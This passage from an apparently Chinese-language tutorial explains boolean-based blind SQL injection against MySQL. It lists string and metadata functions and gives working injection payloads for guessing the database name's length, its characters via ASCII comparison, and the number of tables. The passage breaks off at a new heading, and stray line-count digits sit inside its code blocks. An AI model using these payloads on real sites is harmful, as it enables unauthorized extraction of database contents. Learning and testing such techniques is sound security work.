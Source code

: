 mysql 索引是从1开始的



# 3、布尔盲注

```
布尔（Boolean）型是计算机里的一种数据类型，只有True（真）和False（假）两个值。一般也称为逻辑型。
 页面在执行sql语句后，只显示两种结果，这时可通过构造逻辑表达式的sql语句来判断数据的具体内容。
12
```



布尔注入用到的函数：

```sql
mid(str,start,length)  :字符串截取
ORD()                  :转换成ascii码
Length()               :统计长度
version()              :查看数据库版本
database()             :查看当前数据库名
user()                 :查看当前用户
123456
```



#### 布尔注入流程：



##### **猜解获取数据库长度**

```
' or length(database()) > 8 --+    :符合条件返回正确，反之返回错误
1
```



##### **猜解数据库名**

```
'or mid(database(),1,1)= 'z' --+    :因为需要验证的字符太多，所以转化为ascii码验证
'or ORD(mid(database(),1,1)) > 100 --+ :通过确定ascii码，从而确定数据库名
12
```



##### **猜解表的总数**

```
'or (select count(TABLE_NAME) from information_schema.TABLES where TABLE_SCHEMA=database()) = 2  --+   :判断表的总数
1
```



##### **猜解第一个表名的长度**
